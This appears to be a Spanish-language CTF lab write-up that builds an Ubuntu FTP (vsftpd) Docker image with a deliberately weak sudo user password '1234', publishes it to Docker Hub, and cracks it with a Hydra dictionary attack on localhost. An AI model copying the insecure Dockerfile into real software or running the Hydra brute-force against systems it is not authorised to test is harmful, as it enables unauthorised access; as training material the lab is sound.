

# RETO CTF – FTP EN DOCKER CON KALI LINUX

🎯 # 1. Objetivo del ejercicio

Crear una imagen Docker con Ubuntu que ejecute un servidor FTP (vsftpd), configurar un usuario con contraseña conocida, subir dicha imagen a Docker Hub, y finalmente simular un ataque de fuerza bruta con Hydra desde Kali Linux para obtener las credenciales.

⚙️ # 2. Preparación del entorno

Sistema base: Kali Linux
Herramientas: Docker, vsftpd, Hydra
Directorio de trabajo: ftp_cft
Archivos clave:
Dockerfile: Define la imagen Docker personalizada
diccionario.txt: Contiene posibles contraseñas para la fuerza bruta

🐳 # 3. Dockerfile utilizado

FROM ubuntu:latest

# 1. Instala vsftpd y sudo
RUN apt-get update && \
    apt-get install -y vsftpd sudo && \
    apt-get clean && rm -rf /var/lib/apt/lists/*

# 2. Crea el usuario DIEGO con contraseña 1234
RUN useradd -m -d /home/DIEGO -s /bin/bash -G sudo DIEGO && \
    echo "DIEGO:1234" | chpasswd

# 3. Configura vsftpd
RUN printf "listen=YES\nlisten_ipv6=NO\nlocal_enable=YES\nwrite_enable=YES\nchroot_local_user=YES\nallow_writeable_chroot=YES\npasv_enable=YES\npasv_min_port=30000\npasv_max_port=30009\n" > /etc/vsftpd.conf

# 4. Expone puertos necesarios
EXPOSE 21 30000-30009

# 5. Comando que ejecuta vsftpd al arrancar el contenedor
CMD ["/usr/sbin/vsftpd", "/etc/vsftpd.conf"]
🛠️ 4. Construcción de la imagen

cd ftp_cft
sudo docker build -t retoftp .
sudo docker images

🔐 # 5. Subida de la imagen a Docker Hub

sudo docker login
sudo docker tag retoftp jjmartirojas/retoftp:1.0
sudo docker push jjmartirojas/retoftp:1.0
✅ Resultado: Imagen publicada en docker.io/jjmartirojas/retoftp:1.0

# 6. Ejecución del contenedor

sudo docker run -d -p 2222:21 --name retoftp jjmartirojas/retoftp:1.0
sdo docker ps
# 7. Verificación del puerto

nmap -p 2222 localhost
✅ Resultado: Puerto 2222 abierto

# 8. Ataque de fuerza bruta con Hydra

Diccionario
Archivo diccionario.txt con contraseñas posibles:

admin
1234
toor
ftp123
Ejecución del ataque:
hydra -l DIEGO -P diccionario.txt ftp://localhost:2222 -t 4
🔓 Resultado exitoso:
[2222][ftp] host: localhost   login: DIEGO   password: 1234

# 9. Resultado final

Se logró acceder al servicio FTP creado en Docker mediante un ataque de fuerza bruta con Hydra. El entorno fue construido desde cero en un ambiente Kali Linux, incluyendo creación de contenedor, configuración de usuario y servicio, y ejecución del ataque controlado.

# 10. Conclusión

Este reto permitió integrar varias competencias:

Configuración de servicios en contenedores (FTP sobre Docker).
Publicación de imágenes en Docker Hub.
Simulación de ataques de diccionario con herramientas como Hydra.
Verificación de puertos y accesos mediante nmap.
Este tipo de ejercicios son clave para entender tanto la defensiva (hardening de servicios) como la ofensiva (pentesting y auditoría).
